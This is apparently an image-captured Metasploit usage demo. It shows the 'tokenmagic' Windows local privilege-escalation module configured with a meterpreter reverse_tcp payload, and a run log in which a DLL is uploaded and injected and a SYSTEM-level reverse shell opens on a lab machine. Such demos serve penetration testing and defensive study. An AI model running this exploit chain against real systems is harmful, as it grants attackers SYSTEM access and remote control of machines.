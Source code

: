 ```
Note that the System Orchestrator service which loads the overwritten DLL when using the DLL method can take up to 10
minutes to trigger (Accepted: SERVICE, DLL)
   SERVICE_FILENAME  IfoTziL          no        Filename for Service Payload (Random by default).
   SERVICE_NAME      NTSHIUUVp        no        Service Name to use (Random by default).
   SESSION           1                yes       The session to run this module on.
   WRITABLE_DIR                       no        Directory to write file to (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(windows/local/tokenmagic) > run

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Checking Target
[*] Attempting to PrivEsc on DESKTOP-O5RD7G3 via session ID: 1
[*] Uploading payload to C:\Users\msfuser\AppData\Local\Temp\WindowsCoreDeviceInfo.dll
[*] Running Exploit on DESKTOP-O5RD7G3
[*] Executing TokenMagic PowerShell script
[*] Reflectively injecting exploit DLL into a spare process and triggering the LPE...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[+] Enjoy the shell!
[*] Sending stage (200262 bytes) to 172.16.199.135
[*] Meterpreter session 2 opened (172.16.199.1:4443 -> 172.16.199.135:49803) at 2021-05-14 12:52:58 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-O5RD7G3
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter >
```
